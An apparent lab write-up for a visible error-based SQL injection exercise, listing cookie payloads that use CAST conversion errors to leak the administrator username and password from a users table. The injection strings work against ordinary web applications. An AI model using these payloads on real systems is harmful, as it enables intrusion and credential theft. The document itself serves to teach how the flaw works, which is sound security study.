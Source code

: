 * Title:  Visible Error-Based SQL Injection

* Goal: Log in as the administrator user.

* Payload Used: 

``` ' AND CAST((SELECT 1) AS int)-- ```, 

``` ' AND 1=CAST((SELECT 1) AS int)-- ```,

``` ' AND 1=CAST((SELECT username FROM users) AS int)-- ```, 

``` ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- ```, 

``` ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- ```


* Steps:

1. Check if SQL injection works Add a ' to the TrackingId cookie and see how the app responds. If it gives a normal response, we’re in.

2. Test with a basic payload Try: ``` ' AND CAST((SELECT 1) AS int)-- ``` 
It throws an error. That’s good. Now try: ``` ' AND 1=CAST((SELECT 1) AS int)-- ```. 
This works because 1=1 is true. We get a 200 status code.

3. Try pulling data from users table Assuming users and username exist, try: ``` ' AND 1=CAST((SELECT username FROM users) AS int)-- ```.  
But this breaks. The app cuts off the -- because the cookie value was too long. So just remove the original TrackingId value and inject directly:
``` TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)-- ```

5. Fix the multiple rows error. Now the error says it’s getting multiple rows. Fix it with LIMIT 1:``` ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- ```
Now the error message shows the first username: administrator.

5. Extract the password Replace username with password:``` ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- ``` 
Boom. The error message leaks the password like a fool.

* Takeaway: This lab shows how visible error messages can be weaponized to extract sensitive data. By forcing type conversion errors, we can leak usernames and passwords directly into the response. 
